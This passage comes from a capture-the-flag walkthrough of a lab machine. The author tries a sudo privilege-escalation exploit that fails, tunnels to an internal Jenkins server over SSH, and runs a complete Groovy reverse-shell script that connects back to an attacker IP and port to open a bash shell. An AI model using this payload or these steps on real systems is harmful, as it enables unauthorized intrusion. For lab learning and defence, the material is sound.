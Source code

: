 We also see we have Sudo running in version ```1.8.21``` and a check with searchsploit ```searchsploit sudo``` reveals a vulnerability to ```1.8.20``` "Sudo 1.8.20 - 'get_process_ttyname()' Local Privilege Escalation", but no luck running the [exploit](https://www.exploit-db.com/raw/42183).

@Kali

```sh
wget -O exploit.c https://www.exploit-db.com/raw/42183
gcc -o exploit exploit.c
scp exploit aubreanna@10.10.45.40:~/exploit
```

@aubreanna@internal

```sh
chmod +x exploit
./exploit
died in main: 57
```

I tried changing the c code but felt like a script kiddy as errors just moved on... so I gave up on this.

In the home folder of aubreanna there is txt mentioning a local jenkins server.

From kali lets tunnel local port 31340 with ssh to "127.0.0.1:8080" on internal.thm (which we modified at the beginning).

```sh
ssh -g -L31340:127.0.0.1:8080 -l aubreanna internal.thm
```

we can the open jenkins from your kali machine e.g. http://localhost:31340

Lets run [this groovy reverse shell](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) in the jenkins script conosole and just changed "cmd" to "/bin/bash" as well as IP and port and started a new netcat session on port 7777

```groovy
String host="10.9.193.173";
int port=7777;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

We now have a reverse shell as user jenkins.

```sh
find / -type f -iname "*.txt" 2>/dev/null
/opt/note.txt
/var/jenkins_home/userContent/readme.txt
/var/jenkins_home/war/images/atom-license.txt
/var/jenkins_home/war/scripts/combobox-readme.txt
/var/jenkins_home/war/WEB-INF/update-center-rootCAs/jenkins-update-center-root-ca.txt
/var/jenkins_home/war/WEB-INF/update-center-rootCAs/jenkins-update-center-root-ca-2.txt
/var/jenkins_home/war/WEB-INF/classes/dependencies.txt
/var/jenkins_home/war/dc-license.txt
/var/jenkins_home/war/robots.txt
/var/jenkins_home/war/css/font-awesome/fonts/LICENSE.txt
/var/jenkins_home/war/css/font-awesome/css/LICENSE.txt
/var/jenkins_home/war/css/google-fonts/roboto/LICENSE.txt
/usr/local/openjdk-8/demo/nio/zipfs/README.txt
/usr/local/openjdk-8/demo/nbproject/README.txt
...
```
